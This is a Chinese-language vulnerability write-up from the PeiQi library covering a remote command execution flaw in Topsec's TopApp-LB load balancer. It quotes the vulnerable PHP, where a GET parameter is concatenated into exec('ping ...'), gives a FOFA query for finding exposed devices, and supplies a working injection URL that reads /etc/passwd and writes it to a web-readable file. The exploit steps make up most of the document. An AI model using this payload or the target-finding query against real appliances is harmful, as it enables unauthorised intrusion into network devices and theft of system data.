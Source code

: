 ```yaml
---
title: 天融信负载均衡TopApp-LB enable_tool_debug.php 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 天融信
---
```


# 天融信负载均衡TopApp-LB enable_tool_debug.php 远程命令执行漏洞

## 漏洞描述

天融信 TopSec-LB enable_tool_debug.php文件存在 远程命令执行漏洞，通过命令拼接攻击者可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> 天融信 TopSec-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

登录页面如下

![image-20210618212425381](/img/20210924020254648425.png)

漏洞文件为 **enable_tool_debug.php**

```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```

**commandWrapper.inc** 文件中的 **runTool**

```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}	
```

这里设置 var=0，tool=1，再进行命令拼接造成远程命令执行

```
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```

![image-20210618213319663](/img/20210924020254871110.png)


